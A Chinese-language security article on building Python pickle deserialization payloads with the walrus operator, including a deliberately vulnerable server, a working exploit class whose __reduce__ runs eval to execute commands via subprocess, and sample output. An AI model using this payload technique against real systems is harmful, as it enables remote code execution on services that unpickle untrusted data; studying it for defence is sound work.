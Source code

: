 ```yaml
---
date: 2025-08-04T02:19:58+08:00
title: 利用海象运算符简化Python反序列化漏洞利用
tags: [Python安全, 反序列化漏洞, 海象运算符, 漏洞利用]
authors: qife
description: 本文介绍如何利用Python 3.8引入的海象运算符简化Pickle反序列化漏洞利用过程，通过表达式级变量赋值动态构造恶意对象，绕过传统漏洞利用中的限制条件。
---
```


# 利用海象运算符简化反序列化载荷构造

在利用Python反序列化（特别是Pickle）漏洞时，通常需要构造包含参数集合和服务器端可用可调用对象的载荷。最常见的方法是使用`eval`函数配合待执行的字符串，这种方案非常灵活——通常可以导入`os`模块并调用`os.system`执行任意命令。但某些场景下会存在限制，例如无法直接获取应用输出或出站连接被阻断导致反向Shell失效。有时甚至需要反序列化操作返回具有特定属性的对象。

传统方案若目标环境中存在现成类且攻击者了解其结构，可直接构造对应对象。否则将变得棘手，因为`eval`仅支持单表达式求值，而类声明属于语句而非表达式。Python 3.8引入的海象运算符（`:=`）完美解决了这个问题，它允许我们将赋值操作作为表达式的一部分。

核心思路是通过构造元组，使每个元素都能访问前序元素赋值的变量。例如以下合法Python表达式将求值为2：
```python
(a:=1, b:=a+a, b)[-1]
```

我们可以利用相同模式构造任意对象。假设存在如下服务端代码：
```python
#!/usr/bin/env python3
import base64
import pickle

class Item(object):
    def __init__(self, text):
        self.text = text
    def process(self):
        return self.text.upper().encode()

while True:
    try:
        b64data = input('Pickled object: ')
        data = base64.b64decode(b64data)
        item = pickle.loads(data)
        res = item.process()
        print(f'Result: {res.decode()}')
    except Exception as e:
        print(f'Error: {e}')
```

当无法通过stdout获取输出且禁止外连时，可通过以下方式构造满足要求的载荷（要求反序列化对象必须具有返回可解码字节串的`.process()`方法）：
```python
#!/usr/bin/env python3
import base64
import pickle

class Payload(object):
    def __reduce__(self):
        return eval, ('(a:=type("A", (object,), {}),b:=a(),b.__setattr__("process", lambda: __import__("subprocess").check_output("id")),b)[-1]',)

payload = base64.b64encode(pickle.dumps(Payload())).decode()
print(payload)
```

关键Python表达式解析：
```python
(
    a:=type("A", (object,), {}),  # 动态创建新类型A
    b:=a(),                       # 实例化A类型对象
    b.__setattr__("process",      # 动态添加process方法
        lambda: __import__("subprocess").check_output("id")
    ),
    b                             # 返回构造完成的对象
)[-1]
```

执行效果：
```
Pickled object: gASVlAAAA...（略）
Result: uid=1000(zetatwo) gid=1000(zetatwo) groups=1000(zetatwo)
```

该方法为Python反序列化漏洞利用提供了更灵活的载荷构造方式，特别适用于存在特殊约束条件的攻击场景。